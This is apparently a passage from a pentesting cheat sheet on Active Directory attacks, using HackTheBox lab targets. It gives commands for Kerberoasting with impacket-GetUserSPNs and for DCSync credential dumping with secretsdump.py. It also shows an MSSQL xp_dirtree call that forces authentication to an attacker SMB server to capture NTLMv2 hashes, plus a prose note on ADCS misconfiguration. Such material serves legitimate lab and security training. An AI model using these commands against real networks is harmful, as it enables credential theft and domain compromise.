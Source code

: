 **Target**: Service accounts, which typically have weak or predictable passwords.

````bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
````

### DC-SYNC
---
A **DCSync attack** is a method used to simulate the behavior of a Domain Controller (DC) in order to retrieve password hashes of domain accounts from Active Directory. This attack exploits the replication protocol used by domain controllers to synchronize directory data. By performing a DCSync attack, an attacker can request the password hashes (or even clear-text passwords, if applicable) for specific accounts without needing direct access to the DC.

You will need one of the following requirements, usually printed on **BLOODHOUND**:

- **DS-REPLICATION-GET-CHANGES**: Allows obtaining information about changes in the directory.  
- **DS-REPLICATION-GET-CHANGES-ALL**: Allows obtaining all replication changes, including encrypted passwords.  
- **Elevated Permissions**: Members of **Domain Admins** or **Enterprise Admins** typically have these permissions.

````bash
./secretsdump.py egotistical-bank/svc_loanmgr@10.10.10.175 # Dump credentials (if we have acces to them)
````

### Man in the middle
---
A Man-in-the-Middle (MITM) attack in the context of Active Directory (AD) involves intercepting and potentially altering communication between a client (e.g., a user or service) and a domain controller (DC). This can occur when an attacker is positioned between the client and DC, allowing them to capture authentication traffic, modify requests, or inject malicious data

#### MITM with mssql
---

Once we re inside the MSSQL we can try to force a conexion with our smbserver to try catching its hash NTLMv2

````bash
impacket-smbserver share /tmp/share -ip 10.10.14.9 -smb2support # Create your smbserver
EXEC xp_dirtree '\\10.10.14.9\share', 1, 1 # Make the msql connect to the smbserver
````
### Active Directory Certificate Services (ADCS)
---

This vulnerability arises when the Active Directory Certificate Services (ADCS) are improperly configured. In such cases, attackers can potentially request and obtain certificates from the enterprise CA without proper authorization. These misconfigurations can allow an attacker to enroll for certificates that grant elevated privileges or enable impersonation of legitimate users. By exploiting this weakness, an attacker could escalate privileges or move laterally within the network.
